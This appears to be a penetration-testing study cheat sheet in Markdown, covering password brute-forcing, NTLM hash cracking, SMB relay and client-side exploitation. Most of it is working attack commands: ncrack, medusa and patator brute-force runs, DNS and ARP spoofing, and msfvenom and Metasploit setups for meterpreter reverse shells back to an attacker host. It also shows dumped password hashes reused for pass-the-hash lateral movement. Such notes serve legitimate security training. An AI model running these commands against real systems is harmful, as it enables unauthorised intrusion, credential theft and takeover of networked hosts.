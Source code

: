 # Exploitation

## Vulnerability Assessment
[OpenVAS](https://www.openvas.org/)
[nexpose](https://www.rapid7.com/products/nexpose/)
[GFI LAN Guard](https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard)
[Nessus](https://www.tenable.com/products/nessus)
***
***

## Low Hanging Fruits

For password:

1. **Ncrack**
[ncrack](https://nmap.org/ncrack/)
`ncrack 10.10.10.0/24`
`ncrack els.com`
`ncrack 10.10.10.1-100`
`ncrack 10.10.10.10`
Ncrack support: FTP, SSH, TELNET, HTTP(S), POP3(S), SMB, RDP, VNC
Syntax: `ncrack <service_name>://target:<port_numner>`
Example: `ncrack telnet://10.10.10.0:25`
If not given port number it takes default port number.
`ncrack ssh://10.10.10.130 telnet://10.10.10.160:138`
`ncrack 10.10.10.10,15 -p ssh:50,telnet`
`-U` - To provide username wordlist.
`-P` - to provide passwords wordlist.
`-u` - to provide username.
`-p` - to provide password.
`--password-first`
`-f` - for exit with first successful attempt.

2. **Medusa**
[Medusa](http://h.foofus.net/?page_id=51), [Medusa Git repositery](https://github.com/jmk-foofus/medusa)
`-h` target
`-H` file contaning targets
`-u` username to test
`-U` file containing user names
`-p` password to test
`-P` file containg password to test
`medusa -h 10.10.10.10 -M telnet -U usernames.txt -P password.txt`
3. **Patator**
[patator](https://github.com/lanjelot/patator)
`patator ssh_login host=10.10.10.1 user=root password=FILE0 0=passwords.txt -x ignore:mesg='Authentication failed'`
syntax: `patator [module] host=FILE0 user=FILE1 password=FILE2 0=host.txt 1=login.txt 2=pass.txt`
4. **EyeWitness**
[EyeWitness](https://github.com/FortyNorthSecurity/EyeWitness) - it uses default credentials.
`python EyeWitness.py --headless --prepend-https -f url.txt`
`--active-scan`

<br>
For keyword generation:

1. **Rsmangler**
[rsmangler](https://digi.ninja/projects/rsmangler.php)
`cat words.txt | rsmangler --file - > words_new.txt`
2. **CeWL**
[CeWL](https://digi.ninja/projects/cewl.php)
`cewl -m 8 https://www.google.com` - can be used to scrape website to generate word list.
3. **Mentalist**
[mentalist](https://github.com/sc0tfree/mentalist) is a gui based keyword generator.
***
***

## Exploitation

**LM/NTLMv1**
`auxiliary/server/capture/smb`
`john --format=netlm hash`
[rcracki_mt](https://github.com/foreni-packages/rcracki_mt) is windows tool.
[http://project-rainbowcrack.com/table.htm](http://project-rainbowcrack.com/table.htm)
[https://ophcrack.sourceforge.io/tables.php](https://ophcrack.sourceforge.io/tables.php)
`rcracki_mt -h [first 8 byte of LMHASH] -t 4 *.rti`
In folder metasploit-framework/tools/password there is a ruby file called halflm_second.rb
`ruby halflm_second.rb -n [complete hash] -p [the password got]`

From john folder `perl netntlm.pl -file /root/hashpwd_netntlm -seed [password got]`

Insted of halflm_second we can use `perl netntlm.pl -file /root/hashpwd_netntlm -seed [First half uppercase password]`

**NTLMv2 smb relay**

Metasploit: smb_relay attack
>>msf exploit(smb_relay) > `set SRVHOST 172.16.5.150`
SRVHOST => 172.16.5.150
msf exploit(smb_relay) > `set PAYLOAD windows/meterpreter/reverse_tcp`
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(smb_relay) > `set LHOST 172.16.5.150`
LHOST => 172.16.5.150
msf exploit(smb_relay) > `set SMBHOST 172.16.5.10` //172.16.5.10 is the DNS server.
SMBHOST => 172.16.5.10
msf exploit(smb_relay) > `exploit`

`echo "172.16.5.150 *.sportsfoo.com" > dns`
`dnsspoof -i tap0 -f dns`
`echo 1 > /proc/sys/net/ipv4/ip_forward`
`arpspoof -i tap0 -t 172.16.5.30 172.16.5.1`
`arpspoof -i tap0 -t 172.16.5.1 172.16.5.30`


Impacket: smbrelayx.py
>>Create a payload.exe with msfvenom.
`sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Attacker_IP] LPORT=[Listening_port]  -f exe -o payload.exe`
Start a handler in metasploit and run `smbrelayx.py -h [target_host] -e payload.exe`

**Client Side explotation**

For client-side exploitation use module 'firefox_pdfjs_privilege_escalation'.
>>Then when client clicks on the link generated will start shell in attacker machine.
msf > `use exploit/multi/browser/java_jre17_exec`
msf exploit(java_jre17_exec) > `set SRVHOST 192.168.70.45`
msf exploit(java_jre17_exec) > `set URIPATH /agenda`
msf exploit(java_jre17_exec) > `set TARGET 1`
msf exploit(java_jre17_exec) > `set PAYLOAD windows/meterpreter/reverse_tcp`
msf exploit(java_jre17_exec) > `set LHOST 192.168.70.45`
msf exploit(java_jre17_exec) > `set LPORT 443`
msf exploit(java_jre17_exec) > `exploit`

[*] Exploit running as background job
[*] Started reverse handler on 192.168.70.45:443
[*] Using URL: http://192.168.70.45:8080/agenda
[*] Server started.
***
***
## VA and Exploitation
Expoit a machine and obtain the hashes.
>>`meterpreter > hashdump`
Administrator:500:6df60586675b97c51f6252914a7633d7:fc5399dc481550f5442d1585e10c0345:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
HelpAssistant:1000:485abeee55c20847527b7d40c923ce73:800a821fd8e8fd957fb7e2142e4ec10a:::
netadmin:1003:a4fd0910b9418e67d342ec751ef6b28d:6757a9560a881a505b9fa7bfadd88874:::
SUPPORT_388945a0:1002:aad3b435b51404eeaad3b435b51404ee:0753109d18a27933666907e9069009c2:::>>

Then it use the hash to get foot hold on other hosts:
>>`msf exploit(ms08_067_netapi) > use auxiliary/scanner/smb/psexec_scanner`
`msf auxiliary(psexec_scanner) > set PAYLOAD windows/meterpreter/reverse_tcp`
PAYLOAD => windows/meterpreter/reverse_tcp
`msf auxiliary(psexec_scanner) > set LHOST 172.16.5.42`
LHOST => 172.16.5.41
`msf auxiliary(psexec_scanner) > set LPORT 4455`
LPORT => 4455
`msf auxiliary(psexec_scanner) > set RHOSTS 10.50.97.4-22`
RHOSTS => 10.50.97.4-22
`msf auxiliary(psexec_scanner) > set SMBUSER netadmin`
SMBUser => netadmin
`msf auxiliary(psexec_scanner) > set SMBPass` a4fd0910b9418e67d342ec751ef6b28d:6757a9560a881a505b9fa7bfadd88874
`SMBPass => a4fd0910b9418e67d342ec751ef6b28d:6757a9560a881a505b9fa7bfadd88874`
`msf auxiliary(psexec_scanner) > set THREADS 10`
`THREADS => 10`
`msf auxiliary(psexec_scanner) > run`
***
***

## Nessus via Metaspoit

Plugin link: wget https://raw.githubusercontent.com/darkoperator/Metasploit-Plugins/master/pentest.rb
`service nessusd start`
`https://ajith:8834`
`nmap -sn -oG - 192.168.78.* | awk '/Up$/ {print $2}'`
Scan the nessus once completed.
Then in metasploit:
>>`load nessus`
`nessus_scan_list`
`nessus_report_hosts [scan_id]`
`nessus_db_import [scan_id]`
`vulns`
`load pentest`
`vuln_exploit`
***
***
